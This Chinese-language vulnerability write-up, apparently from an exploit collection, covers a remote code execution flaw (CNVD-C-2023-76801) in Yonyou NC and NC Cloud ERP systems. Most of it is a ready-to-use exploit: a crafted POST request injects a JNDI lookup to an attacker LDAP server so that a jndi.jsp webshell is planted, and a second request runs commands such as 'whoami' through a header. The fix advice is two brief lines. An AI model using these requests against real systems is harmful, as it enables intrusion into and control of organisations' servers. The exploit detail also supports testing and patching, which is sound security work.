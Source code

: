 # 用友 NC Cloud 远程代码执行漏洞 CNVD-C-2023-76801

## 漏洞描述

用友 NC 及 NC Cloud 系统存在任意文件上传漏洞，攻击者可通过 uapjs（jsinvoke）应用构造恶意请求非法上传后门程序，此漏洞可以给 NC 服务器预埋后门，从而可以随意操作服务器。

## 漏洞影响

```
NC63、NC633、NC65
NC Cloud1903、NC Cloud1909
NC Cloud2005、NC Cloud2105、NC Cloud2111
YonBIP 高级版 2207
```

## 漏洞复现

JNDI：https://github.com/WhiteHSBG/JNDIExploit

exp：

```
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
 
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/jndi.jsp"]}
```

exp 中使用的是 JNDI 工具的 TomcatEcho 回显链 ，执行命令并回显：

```
GET /jndi.jsp HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
cmd: whoami
```

## 漏洞修复

1. 官方已经发布修复补丁，请进行升级。
2. 或者进行 waf 等安全部署拦截恶意字符